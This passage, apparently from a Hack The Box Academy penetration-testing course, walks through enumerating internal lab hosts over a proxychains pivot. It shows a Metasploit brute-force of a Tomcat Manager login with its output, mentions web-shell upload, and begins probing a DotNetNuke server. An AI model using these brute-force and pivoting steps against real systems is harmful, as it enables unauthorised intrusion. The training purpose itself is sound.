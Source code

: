 
## 172.16.8.50 - Tomcat

Our earlier Nmap scan showed port 8080 open on this host. Browsing to `http://172.16.8.50:8080` shows the latest version of Tomcat 10 installed. Though there are no public exploits for it, we can try to brute-force the Tomcat Manager login as shown in the [Attacking Tomcat](https://academy.hackthebox.com/module/113/section/1211) section of the `Attacking Common Applications` module. We can start another instance of Metasploit using Proxychains by typing `proxychains msfconsole` to be able to pivot through the compromised dmz01 host if we don't have routing set up via a Meterpreter session. We can then use the `auxiliary/scanner/http/tomcat_mgr_login` module to attempt to brute-force the login.

Internal Information Gathering

```shell-session
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 172.16.8.50
rhosts => 172.16.8.50
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
stop_on_success => true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK

[!] No active DB -- Credential data will not be saved!
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:role1 (Incorrect)

<SNIP>

|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: tomcat:changethis (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We do not get a successful login, so this appears to be a dead-end and not worth exploring further. If we came across a Tomcat Manager login page exposed to the internet, we'd probably want to record it as a finding since an attacker could potentially brute-force it and use it to obtain a foothold. During an internal, we would only want to report it if we could get in via weak credentials and upload a JSP web shell. Otherwise, seeing on an internal network is normal if it is well locked down.

---

## Enumerating 172.16.8.20 - DotNetNuke (DNN)

From the Nmap scan, we saw ports `80` and `2049` open. Let's dig into each of these. We can check out what's on port 80 using `cURL` from our attack host using the command `proxychains curl http://172.16.8.20`. From the HTTP response, it looks like [DotNetNuke (DNN)](https://www.dnnsoftware.com/) is running on the target. This is a CMS written in .NET, basically the WordPress of .NET. It has suffered from a few critical flaws over the years and also has some built-in functionality that we may be able to take advantage of. We can confirm this by browsing directly to the target from our attack host, passing the traffic through the SOCKS proxy.
